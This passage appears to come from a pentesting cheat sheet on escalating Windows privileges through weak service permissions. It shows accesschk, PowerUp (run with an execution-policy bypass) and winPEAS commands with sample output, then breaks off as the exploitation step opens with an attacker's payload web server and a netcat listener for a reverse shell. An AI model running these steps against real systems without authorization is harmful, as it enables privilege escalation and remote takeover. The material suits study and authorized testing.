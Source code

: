 ##### Weak service permission
- Detection
  - 
    ```
    # Find all services authenticated users have modify access onto
    accesschk.exe /accepteula -uwcqv "Authenticated Users" *

    if SERVICE_ALL_ACCESS then vulnerable

    # Find all weak folder permissions per drive.
    accesschk.exe /accepteula -uwdqs Users c:\
    accesschk.exe /accepteula -uwdqs "Authenticated Users" c:\

    # Find all weak file permissions per drive.
    accesschk.exe /accepteula -uwqs Users c:\*.*
    accesschk.exe /accepteula -uwqs "Authenticated Users" c:\*.*
    ```

- or
  - 
    ```
    powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"

    [*] Checking service permissions...

    ServiceName   : daclsvc
    Path          : "C:\Program Files\DACL Service\daclservice.exe"
    StartName     : LocalSystem
    AbuseFunction : Invoke-ServiceAbuse -Name 'daclsvc'
    CanRestart    : True
    ```

- or
  - 
    ```
    winPEAS.exe

    [+] Interesting Services -non Microsoft-(T1007)

    daclsvc(DACL Service)["C:\Program Files\DACL Service\daclservice.exe"] - Manual - Stopped
      YOU CAN MODIFY THIS SERVICE: WriteData/CreateFiles

    [+] Modifiable Services(T1007)
      LOOKS LIKE YOU CAN MODIFY SOME SERVICE/s:
      daclsvc: WriteData/CreateFiles
    ```
- Exploitation
  - 
    ```
    # Attacker
    sudo python -m SimpleHTTPServer 80
    sudo nc -lvp <PORT>
